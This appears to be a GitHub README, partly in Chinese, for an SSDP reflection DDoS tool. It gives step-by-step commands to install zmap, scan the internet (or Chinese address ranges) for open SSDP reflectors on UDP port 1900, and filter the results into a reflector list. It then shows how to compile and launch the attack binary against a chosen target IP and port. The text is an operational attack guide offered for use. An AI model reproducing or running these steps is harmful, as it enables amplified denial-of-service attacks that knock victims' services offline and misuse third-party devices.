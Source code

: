# SSDP
```
yum -y install gcc+ gcc-c++
yum -y install gcc libcap libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c cpan vnstat zmap
yum install cmake gmp-devel gengetopt libpcap-devel flex byacc json-c-devel libunistring-devel
wget ftp://ftp.gnu.org/gnu/gengetopt/gengetopt-2.22.6.tar.gz
tar -zvxf gengetopt-2.22.6.tar.gz
cd gengetopt-2.22.6
./configure
make
make install
```
安装zmap<br>
```
yum install git
git clone https://github.com/zmap/zmap
cd zmap/
cmake .
make -j4
make install
```
安装完成！<br>
扫描全球：<br>
```screen zmap -M udp -p 1900 --probe-args=file:upnp_1900.pkt -o ssdp.txt```
扫描国内：<br>
```screen zmap -M udp -p 1900 -w cn.txt -B 100M --probe-args=file:upnp_1900.pkt -o ssdpscan.txt```
扫描完成后,我们开始执行过滤!<br>
过滤 ： <br>
```php ssdpfilter.php ssdp.txt ssdpfiltered.txt 200 1000```
200处理个数  1000线程<br>
全自动：screen ./scan 1<br>
自动过滤跟扫描，到时候表完成过后是ssdp.txt<br>
编译攻击脚本：<br>
```gcc -pthread ssdp.c -o ssdp```
SSDP攻击：<br>
```./ssdp <target IP> <target port> <reflection file>  <time (optional)>```
